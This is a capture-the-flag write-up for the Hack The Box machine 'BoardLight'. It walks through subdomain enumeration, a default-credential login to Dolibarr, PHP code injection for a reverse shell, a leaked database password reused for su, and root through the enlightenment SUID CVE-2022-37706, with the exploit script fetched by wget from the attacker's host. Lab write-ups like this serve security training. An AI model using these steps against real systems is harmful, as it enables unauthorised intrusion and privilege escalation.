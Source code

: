 # HTB: BoardLight

---
title:  "HTB BoardLight Writeup"
date:   2024-05-26 00:30:00 
categories: HTB Machine
tags: Default_user_pass PHP Code Injection Binary_exploitation CVE
---


## Shell as www-data


### Enum

```
─# nmap -sC -sV -p- -T4 --min-rate=9326 --vv board.htb           
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-26 10:51 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 10:51
Completed NSE at 10:51, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 10:51
Completed NSE at 10:51, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 10:51
Completed NSE at 10:51, 0.00s elapsed
Initiating Ping Scan at 10:51
Scanning board.htb (10.10.11.11) [4 ports]
Completed Ping Scan at 10:51, 0.28s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 10:51
Scanning board.htb (10.10.11.11) [65535 ports]
Discovered open port 22/tcp on 10.10.11.11
Discovered open port 80/tcp on 10.10.11.11
```

only port 22,80 are open so that's nothing maybe i'll try enum using subdo enum because on board.htb only landing page so i think the vulnerability on subdomain board.htb



```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u "http://board.htb" -H "HOST: FUZZ.board.htb" -c -fs 15949

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 15949
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 268ms]
web3452                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 329ms]
web4000                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 334ms]
wishlist                [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 332ms]
```

Now add `crm.board.htb` in /etc/hosts


### Identify Vulnerability


![](2024-05-26-23-08-36.png)

The Version of Dolibar is 17.0 so let we research about this vendor to see the vendor vulnerable or not

![](2024-05-26-23-10-03.png)


 In Dolibarr 17.0.0 with the CMS Website plugin (core) enabled, an authenticated attacker can obtain remote command execution via php code injection bypassing the application restrictions.

 The CMS are vulnerable PHP Code injection but it's authenticated 

 ```
 The default username and password for Dolibarr, a popular open-source ERP and CRM software, often depend on how it was installed and set up. However, the typical default credentials are:

    Username: admin
    Password: admin
```

as you can see here the user pass default is admin .

After i put that's credentials , i successfully login to dashboard


Now click `Website`and > click `+` > and create your site > Import website template > Click Load anything template it's ok > Edit page
> and put your php revshell code


![](2024-05-26-23-56-38.png)


And click saved


```
└─# nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.110] from (UNKNOWN) [10.10.11.11] 46260
Linux boardlight 5.15.0-107-generic #117~20.04.1-Ubuntu SMP Tue Apr 30 10:35:57 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 08:55:52 up 40 min,  4 users,  load average: 0.62, 0.46, 0.52
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (856): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



## Shell as larissa

After i research on google about "Where the location Dolibarr default config" i got this page

[Dolibar Config Location](https://wiki.dolibarr.org/index.php?title=Configuration_file)


```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

the path is `conf/conf.php`

```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su larissa
su larissa
Password: serverfun2$2023!!
id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
```


## Shell as root

```
find / -perm -04000 -ls 2>/dev/null 
     2491     16 -rwsr-xr-x   1 root     root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
      608     16 -rwsr-sr-x   1 root     root        14488 Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
    17633     28 -rwsr-xr-x   1 root     root        26944 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
    17628     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
    17627     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
    17388     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
     2368     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     5278    468 -rwsr-xr-x   1 root     root         477672 Jan  2 09:13 /usr/lib/openssh/ssh-keysign
    10039    388 -rwsr-xr--   1 root     dip          395144 Jul 23  2020 /usr/sbin/pppd
```

Do you see what i see?? yupp that's enlightenment binary , i had saw about this binary vulnerability a few month ago and also have tried to download this binary in my ubuntu and trying to priv esc and it's working

[CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)


```
wget http://10.10.14.110:8000/eng.sh
--2024-05-26 08:47:03--  http://10.10.14.110:8000/eng.sh
Connecting to 10.10.14.110:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 707 [text/x-sh]
Saving to: ‘eng.sh’

     0K                                                       100% 41.3M=0s

2024-05-26 08:47:04 (41.3 MB/s) - ‘eng.sh’ saved [707/707]

bash eng.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
```

Enjoy : ) 

